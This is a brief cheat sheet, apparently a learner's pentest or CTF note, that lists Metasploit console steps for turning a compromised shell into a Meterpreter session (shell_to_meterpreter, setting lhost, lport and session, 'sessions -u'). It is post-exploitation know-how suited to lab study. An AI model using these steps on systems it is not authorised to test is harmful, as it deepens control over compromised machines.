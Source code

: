 after exploitation
- CTRL+Z / y (session to background)
- search shell_to_meterpreter
- use module
- set lhost / lport / set session 1
- run (it will create session 2 as meterpreter)
- sessions 2 (change to meterpreter session)
- sessions -u 1 (it will combine 2 steps on one automatically which is run + change to meterpreter session)